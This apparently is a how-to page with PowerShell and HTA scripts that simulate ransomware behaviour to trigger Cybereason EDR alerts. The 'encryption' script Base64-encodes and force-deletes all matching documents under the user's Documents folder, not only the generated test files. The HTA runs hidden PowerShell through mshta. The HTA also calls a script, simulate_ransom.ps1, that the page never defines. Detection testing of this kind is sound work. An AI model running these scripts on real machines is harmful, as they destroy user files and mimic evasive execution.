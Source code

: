 To prepare isolation tests using Cybereason, we can use separate PowerShell scripts that simulate malicious behavior. 
Below are the steps and the corresponding scripts, along with instructions for execution by standard users without admin rights.

Step 1: Test File Generation Script
This script creates various file types in the user's Documents folder, which are typically targeted by ransomware.

Script Name: generate_test_files.ps1

PowerShell 
Copier le codeCode copié
# Set the target folder
$targetFolder = "$env:USERPROFILE\Documents"

# Generate 5 .txt files
1..5 | ForEach-Object { "This is sample text file $_" | Out-File "$targetFolder\test_$_.txt" }

# Generate 5 empty .docx files
1..5 | ForEach-Object { New-Item -Path $targetFolder -Name "test_$_.docx" -ItemType File }

# Generate 5 empty .xlsx files
1..5 | ForEach-Object { New-Item -Path $targetFolder -Name "test_$_.xlsx" -ItemType File }

# Generate 5 fake PDF files with text content
1..5 | ForEach-Object { "PDF file simulation $_" | Out-File "$targetFolder\test_$_.pdf" }
Instructions to Execute:

Save the script as generate_test_files.ps1 on your local machine.
Open PowerShell as a standard user.
Navigate to the directory where the script is saved.
Run the script using the command:
.\generate_test_files.ps1
Step 2: File Encryption Simulation Script
This script simulates the encryption of files by encoding their content to Base64 and creating new .enc files.

Script Name: simulate_file_encryption.ps1

PowerShell 
Copier le codeCode copié
# Set the target folder
$targetFolder = "$env:USERPROFILE\Documents"

# Encrypt files
Get-ChildItem -Path $targetFolder -Recurse -Include *.txt,*.docx,*.pdf,*.xlsx -ErrorAction SilentlyContinue | ForEach-Object {
    try {
        $content = Get-Content $_.FullName -Raw
        $encoded = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($content))
        $newFile = "$($_.FullName).enc"
        [IO.File]::WriteAllText($newFile, $encoded)
        Remove-Item $_.FullName -Force
    } catch {}
}
Instructions to Execute:

Save the script as simulate_file_encryption.ps1.
Open PowerShell as a standard user.
Navigate to the directory where the script is saved.
Run the script using the command:
.\simulate_file_encryption.ps1
Step 3: Data Exfiltration Simulation Script
This script simulates data exfiltration by archiving the encrypted files into a ZIP file.

Script Name: simulate_data_exfiltration.ps1

PowerShell 
Copier le codeCode copié
# Set the target folder
$folder = "$env:USERPROFILE\Documents"
$files = Get-ChildItem -Path $folder -Include *.enc -Recurse -ErrorAction SilentlyContinue

# Archive encrypted files
$archivePath = "$env:TEMP\exfiltration.zip"
if ($files) {
    Compress-Archive -Path $files.FullName -DestinationPath $archivePath -Force
}
Instructions to Execute:

Save the script as simulate_data_exfiltration.ps1.
Open PowerShell as a standard user.
Navigate to the directory where the script is saved.
Run the script using the command:
.\simulate_data_exfiltration.ps1
Step 4: Stealth Execution Simulation Script
This script simulates stealthy execution using the mshta.exe method to run PowerShell commands invisibly.

Script Name: simulate_stealth_execution.hta

HTML, XML 
Copier le codeCode copié
<html>
<head>
<script>
var shell = new ActiveXObject("WScript.Shell");
shell.Run("powershell.exe -w hidden -nop -c iex (Get-Content simulate_ransom.ps1 -Raw)");
</script>
</head>
</html>
Instructions to Execute:

Save the script as simulate_stealth_execution.hta.
Open the saved .hta file by double-clicking it.
Triggering Malops
Each of these scripts is designed to trigger detection mechanisms in Cybereason, which can then lead to potential isolation of the machine. Ensure that you have monitoring in place to observe the alerts generated from these simulations.

Be cautious while running these scripts, as they are designed to simulate malicious activities. Ensure you have the proper permissions and that this testing is conducted in a controlled environment.
